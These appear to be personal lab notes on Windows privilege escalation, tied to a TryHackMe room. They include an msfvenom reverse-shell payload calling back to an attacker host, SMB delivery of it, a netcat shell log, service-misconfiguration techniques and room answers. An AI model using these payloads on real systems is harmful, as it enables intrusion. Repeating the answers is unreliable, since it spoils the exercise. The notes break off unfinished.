 # Windows Privelege Escalation

Windows IP Address: 10.0.2.30
Kali IP Address: 10.0.2.26

msfvenom Utility:
msfvenom is a compbination of Msfpayload and msfencode, putting both of these tools into a single Framework. 

```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.26 LPORT=7777 -f exe -o ./reverse.exe

```
By the initisting the impacket file - smbserver.py, create the share directory:

```
python /usr/share/doc/python3-impacket/examples/smbserver.py tools .

```

Copy the reverse.exe created on kali machine to Windows Account(user):

```
copy \\10.0.2.26\reverse.

.\reverse.exe

```

Result:
```
└─$ nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.0.2.26] from (UNKNOWN) [10.0.2.30] 49740
Microsoft Windows [Version 10.0.19045.2006]
(c) Microsoft Corporation. All rights reserved.

C:\PrivEsc>whoami
whoami
desktop-3ku67mt\user

C:\PrivEsc>

```
Get a powershell command from the CMD:

```
C:\PrivEsc>powershell.exe -exec bypass

PS C:\PrivEsc>
```

Information: PowerUp.ps1 and SharpUp.exe - those are tools to enumerate the Windows machine target.

Seatbelt.exe - also an enumeration tool to allow the privilege misconfiguration on a Windows machine

Winpeas - the same as LinPeas

# Kernel Exploits 

1. Enumerate the version by a command - systeminfo

systeminfo  - displays detailed configuration information about computer and its operating system, including operating system configuration, security information, product ID, and hardware properties. 

Resource:
1.  https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/systeminfo

2. https://www.hackingarticles.in/windows-privilege-escalation-kernel-exploit/

3. https://www.hackingarticles.in/window-privilege-escalation-automated-script/

4. https://github.com/bitsadmin/wesng.git

SMB share Default command: 
```
impacket-smbserver share $(pwd)
```

Command of using the wesng tool:

```
└─$ python wes.py ~/tools/tools/systeminfo.txt -i 'Elevation of Privilege' --exploits-only | more
Windows Exploit Suggester 1.05 ( https://github.com/bitsadmin/wesng/ )
[+] Parsing systeminfo output
[+] Operating System
    - Name: Windows 10 Version 22H2 for x64-based Systems
    - Generation: 10
    - Build: 19045
    - Version: 22H2
    - Architecture: x64-based
    - Installed hotfixes (9): KB5017022, KB5064399, KB5011048, KB5015684, KB5026037, KB5065429, KB5014032, KB501670
5, KB5063979
[+] Loading definitions
    - Creation date of definitions: 20251003
[+] Determining missing patches
[+] Applying display filters
[-] Done. No vulnerabilities found


```

Services are programs that run in the background , accepting input or performing regular tasks. If services run with SYSTEM privileges and are misconfigured , exploiting them may lead to command execution with SYSTEM privileges as well.  (By Tib3rius)

Query the config:
```
> sc.exe qc <name>
```
Query the current status of a service:
```
> sc.exe query <name>
```
Modify the configuration option of the service:
```
> sc.exe config <name> <option>= <value>
```
Start/Stop a service:
```
> net start/stop <name> 
```

Common Service Misconfiguration:
1. Insecure Service Properties
2. Unquoted Service Path
3. Weak Registry Permissions
4. Insecure Service Executables
5. DLL Hijacking

1. Insecure Service Properties
Each service has an ACL which defines certain service-specific permissions. We can change the executable of a service, which runs with SYSTEM privileges. But in case the START/STOP service is disabled then attacker could not escalate the privilege.

2. Unquoted Service Path
Executables in Windows can be run without using their extension (whoami.exe to whoami) Consider the following unquoted path: C:\Program Files\Some Dir\Somesvc.exe. So the C:\Program Files\Some could be executable.

3. Weak Registry Permissions
The Windows registry stores entries for each service. Since registry entries can have ACLs, if the ACL is misconfigured, it may be possible to modify a service's configuration even if we cannot modify a service.

4. 
# TryHackMe - Windows PrivEsc

# Task 3 (Service Exploits)

Question: What is the original BINARY_PATH_NAME of the daclsvc service?

Answer: C:\Program Files\DACL Service\daclservice.exe

# Task 4  (Service Exploits)

Question: What is the BINARY_PATH_NAME of the unquotedsvc service?

Answer:  C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe

# Task 5 (Service Exploits)
